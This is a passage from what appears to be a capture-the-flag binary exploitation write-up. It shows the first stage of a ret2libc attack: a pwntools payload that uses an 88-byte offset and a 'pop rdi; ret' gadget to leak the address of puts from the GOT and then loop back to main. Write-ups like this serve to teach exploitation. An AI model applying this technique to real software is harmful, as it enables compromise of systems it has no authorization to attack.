 And that is `0x0000000000401263: pop rdi; ret;`

```
offset = 88
pop_rdi = 0x0000000000401263

payload  = b'A' * offset + p64(pop_rdi) + p64(exe.got.puts) + p64(exe.plt.puts)
payload += p64(exe.sym.main)
sla(b'\n', payload)
```

![alt text](/images/image-9-2.png)

So we leak 6 address bytes. We see that at the end of the payload there is `exe.sym.main` so that after the leak is complete, the program will run again without ending. Next, we use the 6 leaked bytes to find the libc base address.

![alt text](/images/image-8-2.png)